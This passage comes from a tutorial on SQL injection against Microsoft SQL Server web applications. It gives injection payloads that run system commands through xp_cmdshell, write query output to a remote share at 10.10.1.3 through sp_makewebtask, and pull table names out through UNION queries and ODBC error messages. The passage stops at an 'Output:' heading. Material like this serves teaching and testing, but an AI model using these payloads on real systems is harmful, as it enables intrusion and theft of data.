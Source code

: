 Being able to inject SQL command usually mean, we can execute any SQL query at will. Default installation of MS SQL Server is running as SYSTEM, which is equivalent to Administrator access in Windows. We can use stored procedures like master..xp_cmdshell to perform remote execution:
```
'; exec 
master..xp_cmdshell 'ping 10.10.1.2'--
```
Try using double quote `(")` if single quote `(')` is not working. The semi colon will end the current SQL query and thus allow you to start a new SQL command. To verify that the command executed successfully, you can listen to ICMP packet from 10.10.1.2, check if there is any packet from the server:
```
#tcpdump 
icmp
```
If you do not get any ping request from the server, and get error message indicating permission error, it is possible that the administrator has limited Web User access to these stored procedures.

#### 5 How to get output of my SQL query by SQL Injection?
It is possible to use sp_makewebtask to write your query into an HTML: 
``` sql
'; EXEC master..sp_makewebtask "\\10.10.1.3\share\output.html", "SELECT * FROM INFORMATION_SCHEMA.TABLES"
```
But the target IP must folder "share" sharing for Everyone. 
#### 6 How to get data from the database using ODBC error message by SQL Injection?
We can use information from error message produced by the MSSQL Server to get almost any data we want. Take the following page for example: 
```
http://duck/index.asp?id=10
```
We will try to UNION the integer '10' with another string from the database: 
```sql
http://duck/index.asp?id=10 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES--
```
The system table `INFORMATION_SCHEMA.TABLES` contains information of all tables in the server. The `TABLE_NAME` field obviously contains the name of each table in the database. It was chosen because we know it always exists. Our query: 
```sql 
SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES-
```
This should return the first table name in the database. When we UNION this string value to an integer 10, MS SQL Server will try to convert a string (nvarchar) to an integer. This will produce an error, since we cannot convert nvarchar to int. The server will display the following error:
```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error 
converting the nvarchar value 'table1' to a column of data 
type int. 

/index.asp, line 5
```
The error message is nice enough to tell us the value that cannot be converted into an integer. In this case, we have obtained the first table name in the database, which is `"table1"`.
To get the next table name, we can use the following query: 
```sql
http://duck/index.asp?id=10 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME NOT IN ('table1')--
```
We also can search for data using LIKE keyword: 
```sql
http://duck/index.asp?id=10 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%25login%25'--
```
Output: 